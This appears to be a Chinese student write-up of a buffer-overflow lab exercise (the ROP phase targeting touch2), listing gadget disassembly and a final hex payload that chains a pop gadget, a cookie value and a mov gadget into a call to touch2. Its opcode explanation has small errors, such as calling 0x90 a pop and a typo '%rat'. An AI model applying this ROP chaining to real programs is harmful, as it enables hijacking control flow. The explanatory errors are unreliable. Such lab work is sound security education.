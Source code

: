 ```
0000000000401b01 <setval_113>:
  401b01:	c7 07 48 89 c7 c1    	movl   $0xc1c78948,(%rdi)
  401b07:	c3                   	retq   

0000000000401b08 <getval_313>:
  401b08:	b8 58 90 92 c3       	mov    $0xc3929058,%eax
  401b0d:	c3                   	retq   

0000000000401b0e <getval_115>:
  401b0e:	b8 48 c3 99 b7       	mov    $0xb799c348,%eax
  401b13:	c3                   	retq   

0000000000401b14 <mid_farm>:
  401b14:	b8 01 00 00 00       	mov    $0x1,%eax
  401b19:	c3                   	retq
```
观察上面函数，可知主要有两类指令，`mov`和`lea`。在题目说明所给出的表格中去解读汇编后的机器指令
发现上述函数中主要用到的指令`mov`和`pop`两种，其中：
`mov`从`%rax`到`%rdi`对应十六进制数`89 c7`。即`mov`对应`0x89`，此时从`%eax`到`%edi`对应`0xc7`。
`pop`到`%rax`对应十六进制数`90 58`，即`pop`对应`0x90`，此时`%rax`对应`0x58`。
再一次明确我们的目的：将`cookie`放到`%rdi`，并把`touch2`的地址放到栈中执行。
但是上述`gadgets`中没有直接将`cookie`输入`%rdi`中的函数，所以需要采用间接手段
为了利用`gadgets`将`cookie`输入到`%rdi`中，我们可以将`cookie`放到栈上，先调用`gadgets`中的`pop`将`cookie`
储存到`%eax`里，再调用`gadgets`中的`mov`将`%eax`中的数据传输到`%edi`中再调用`touch2`即可.
最终输入为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	//无效代码填满整个缓冲区以致溢出

e9 1a 40 00 00 00 00 00	//gadget1(popq %rat   ret)的起始地址覆盖原先的返回地址

48 8e ca 4b 00 00 00 00	//cookie

f7 1a 40 00 00 00 00 00	//gadget2(mov %rax,%rdi   ret)的起始地址

34 19 40 00 00 00 00 00	//touch2的起始地址
```


```
aws:
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e9 1a 40 00 00 00 00 00	
48 8e ca 4b 00 00 00 00	
f7 1a 40 00 00 00 00 00	
34 19 40 00 00 00 00 00	
```


